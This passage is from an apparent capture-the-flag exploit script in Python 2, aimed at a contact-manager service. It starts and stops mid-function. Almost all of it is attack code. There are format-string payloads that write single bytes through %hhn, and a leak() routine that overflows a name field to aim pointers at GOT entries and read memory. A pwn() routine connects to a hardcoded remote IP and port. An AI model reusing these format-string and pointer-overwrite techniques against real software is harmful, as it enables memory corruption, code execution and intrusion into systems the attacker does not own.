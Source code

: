 ```python
    readtil('iption:')
    sendln('1000')
    readtil('iption:')
    sendln('%'+str((x+3) & 0xff)+'c%18$hhn')
    #readtil('>>> ')
    sendln('4')
    readtil('>>> ')

    sendln('3')
    readtil('change? ')
    sendln('BAR4')
    readtil('>>> ')
    sendln('2')
    readtil('iption:')
    sendln('1000')
    readtil('iption:')
    sendln('%'+str((i >> 24) & 0xff) + 'c%30$hhn')
    readtil('>>> ')
    sendln('4')
    readtil('>>> ')
                    
    
def leak(x):
    print "leaking " + hex(x)
    global last_addr
    # edit contact 1 -> name to overflow pointers
    sendln('3')
    readtil('change? ')
    if last_addr == 0:
        sendln('BAR1')
    else:
        sendln('B'*63)
    
    readtil('>>> ')
    sendln('1')
    readtil('name:')
    #       name   len    valid   char *description==write1->free@got // char *phone==leak1->malloc@got  
    sendln('B'*63+"\x00"+"BBBB"+p(0)+p(x)+p(x)+"BAR2")
    last_addr = x
    
    readtil('>>> ')
    
    sendln('4')
    data = readtil('>>> ')
    m = re.findall('Phone #: (.*)', data)
    return m[0]
    
def leak4(x):
    return struct.unpack('I', leak(x)[0:4])[0]
    
def pwn():
    global s
    global last_addr
    last_addr = 0
    s=socket(AF_INET, SOCK_STREAM)
    #s.connect(('127.0.0.1', 4444))
    s.connect(('54.165.223.128', 2555))
    readtil('>>> ')
    
    # create contact 1
    sendln('1')
    readtil('Name: ')
```